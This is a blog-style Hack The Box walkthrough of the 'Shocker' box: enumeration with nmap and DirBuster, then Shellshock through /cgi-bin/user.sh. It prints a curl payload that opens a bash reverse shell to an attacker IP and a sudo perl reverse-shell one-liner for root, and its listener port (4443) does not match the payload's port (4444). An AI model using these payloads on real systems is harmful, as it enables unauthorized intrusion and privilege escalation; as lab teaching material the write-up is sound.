 ```yaml
---
title: Shocker
date: 2020-05-17 16:19
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/shocker/shocker.png'
categories: htb
---
```


In this Hack The Box, we’ll be using DirBuster to look for hidden directories, and we’ll get to use the shellscript exploit to gain access to the box–all without using Metasploit, so let’s begin!

## Hack The Box

* Operating System: Linux 
* Difficulty: Easy

## Enumeration

Let's start with the good ol' nmap scan. 

<img src="/images/blog/shocker/nmapscan.jpg" alt="nmap scan">

	PORT     STATE SERVICE VERSION
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 
	                       (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
	|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
	|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)

From the results, we can see that port 80 is open, so let’s see what we can find.

### Website Information 

In the web browser, I went to `10.10.10.56`. Hah, look what's on the front page. 

<img src="/images/blog/shocker/website.jpg" alt="front page of website">

Next, I checked the source code and the HTTP headers using Burp Suite--nothing.

I decided to use DirBuster since I wasn't having any luck. 

### DirBuster

To access DirBuster, in terminal type in `dirbuster`, and it should open the program. I used the medium wordlist file located in: 

<strong>/usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt</strong>

Here are the results:

<img src="/images/blog/shocker/dirbuster.jpg" alt="dirbuster results">

I tried to access /icons, no luck. That said, what's interesting is the cgi-bin directory that DirBuster has found. Since cgi-bin is a folder that can be used to house scripts.. I wonder if there's any scripts in that folder.

I reran DirBuster, but this time added the file extensions: <strong>sh, pl, py, and rb</strong>. 

<img src="/images/blog/shocker/dirbustershell.jpg" alt="dirbuster results with shell script">

Here we go, it looks like we found a <strong>user.sh</strong> file, which confirms that the cgi-bin does allow for scripts to run. Meaning, we can try to send a shell script over to gain access to the machine.

### Using Nmap Scripts

Since we've confirmed that the cgi-bin directory can execute shell scripts, I did some investigating and found out about the shellshock vulnerability. Here's what I found:

*Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests.*

You can learn more about it here: [Wikipedia - Shellshock (Software Bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

Before using it, I wanted to verify that this HTB is vulnerable to shellshock, so I used a nmap script. To find the script in Kali Linux use the `locate` command. Once found, you can use the `cp` command to copy it to your current directory. 

	root@kali:~# locate http-shellshock
	/usr/share/nmap/scripts/http-shellshock.nse
	root@kali:~# cp /usr/share/nmap/scripts/http-shellshock.nse /root/HTB/Shocker

Before using it, I edited the file by using the `gedit` command and removed the line: 

`options["header"][cmd] = cmd`

Then we can go ahead and run the script..

<img src="/images/blog/shocker/nmapscript.jpg" alt="nmap script results">

..Yes! Confirmed that this box might be vulnerable to shellshock, so let's use it. 

## Exploitation

Before moving forward with exploitation, let's recap what we know so far:

* In the nmap scan, we found out that port 80 is open. 
* In DirBuster we saw the cgi-bin directory that contained a user.sh file.
* The above tells us that the cgi-bin directory can store and execute shell scripts.
* Confirmed that port 80 is vulnerable to the shellscript exploit by running a nmap script.

Okay, now that we know the above. Let's start our exploit!

### Shellscript Exploit

To start with the shellscript exploit, we're going to do the following: 

Enter this command in one terminal window:

	curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.31/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

And then open a netcat listener in another terminal window, `nc -lnvp 4443`

<img src="/images/blog/shocker/shellscript.jpg" alt="shellscript exploit">

Would you look at that--it worked! It looks like we have access to Shelly's account. Let's see what type of privileges Shelly has by using the `sudo -l` command.

<img src="/images/blog/shocker/shelly.jpg" alt="shelly privileges">

It looks like Shelly can run a perl script, so we can see if we can get a reverse shell using perl.

### Privilege Escalation

I like to use Pentest Monkey's cheat sheet to find a reverse shell suing perl. The cheat sheet can be found here: [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

	sudo perl -e 'use Socket;$i="10.10.14.31";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Before executing the command, we'll want to create a Netcat listener first in another terminal window by typing `nc -lnvp 4444` 

<img src="/images/blog/shocker/pescalation.jpg" alt="privilege escalation">

We did it! We can use the `whoami` command to verify root access, and we do. Congrats! We now have access to the Shocker HTB. From here, we can locate the root.txt and user.txt file to grab the flags. 

## Conclusion

Running DirBuster on web servers is extremely helpful because it'll find directories that you wouldn't normally see when you first go to a website. In this box, we were able to locate the cgi-bin directory which housed scripts. Once we found that out, we were able to upload and execute our own scripts to gain root access. 
